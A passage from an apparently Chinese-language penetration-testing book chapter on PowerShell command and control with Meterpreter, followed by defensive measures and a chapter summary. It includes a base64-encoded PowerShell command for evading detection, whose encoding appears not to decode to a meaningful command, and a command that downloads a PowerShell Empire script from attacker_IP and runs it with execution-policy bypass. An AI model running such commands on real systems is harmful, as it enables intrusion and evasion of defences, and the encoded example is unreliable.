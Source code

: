 为了避免被检测到，攻击者通常会混淆 PowerShell 命令。在 Meterpreter 的上下文中，可以混淆 PowerShell 命令，使得分析更加困难：

```
 # Obfuscate a simple PowerShell command
powershell -enc JABzAHMAaQBtAGUAbgB0AC4AbgBuAGUAdwAtAGwAZQBuAGEAcwBrAGUAbgAuAEwAbwBnAGcA
```

这个示例展示了如何使用 base64 编码进行混淆。

## 使用 PowerShell 进行 C2（命令与控制）

现在，让我们探索在 Meterpreter 中使用 PowerShell 进行 C2 操作。这涉及在攻击者和被攻陷系统之间建立持久连接。假设 PowerShell Empire 已经部署在外部服务器上，我们可以在 Meterpreter 中下载并执行它：

```
 # Download PowerShell Empire
Invoke-WebRequest -Uri http://attacker_IP/powershell_empire.ps1 -OutFile C:\powershell_empire.ps1
# Execute PowerShell Empire
powershell -ExecutionPolicy Bypass -File C:\powershell_empire.ps1
```

这演示了 Meterpreter 在建立后，如何利用 PowerShell 下载并执行更高级的后期利用框架。

## 防御措施

为了防御利用 Meterpreter 和 PowerShell 进行的攻击，组织应实施强有力的安全措施：

+   **网络监控**：使用网络监控工具检测异常的流量模式或连接

+   **端点保护**：利用端点保护解决方案检测并阻止恶意活动

+   **应用程序白名单**：限制未经授权的应用程序的执行，包括 PowerShell 脚本

+   **定期审计和补丁管理**：定期审计系统漏洞并应用补丁，以减轻已知的安全问题

+   **用户教育**：教育用户了解打开未知文件或点击可疑链接的风险

总结来说，Meterpreter 和 PowerShell 的结合在攻击者进行后期利用时构成了重大威胁。理解它们的功能并采取有效的防御措施，对于组织减轻与这些复杂攻击技术相关的风险至关重要。定期更新系统、监控网络流量和教育用户是保持安全韧性的关键。

# 总结

本章中，我们探讨了在渗透测试背景下使用 PowerShell 进行 C2 控制的复杂领域。从基础知识开始，我们探索了如何将 PowerShell —— 这一为合法管理任务设计的工具 —— 被防御者和攻击者同时利用。本章揭示了将 PowerShell 武器化用于后渗透活动的艺术性，提供了实际案例，指导你了解执行命令、渗透系统以及规避检测的细节。从利用内置 cmdlet 到执行复杂的混淆技术，你对攻击者在渗透测试中采用的策略有了全面的理解。本章强调了 PowerShell 的双重特性 —— 它是防御者加强网络安全防护的强大资产，同时也是攻击者穿越网络的有力武器。通过实际场景，你能够在受控环境中模拟攻击者的战术，主动强化防御。随着我们深入了解攻击者的视角，本章为安全专业人士提供了可操作的见解，帮助他们主动加强网络防御。通过掌握基于 PowerShell 的 C2 控制的动态格局，你在永无止境的渗透测试猫鼠游戏中获得了战略优势。本章传授的知识是安全从业人员希望在不断变化的网络安全环境中保持领先一步的重要资源。

在下一章中，我们将深入探讨在 Microsoft Windows 环境中使用 PowerShell 进行后渗透操作的强大领域。
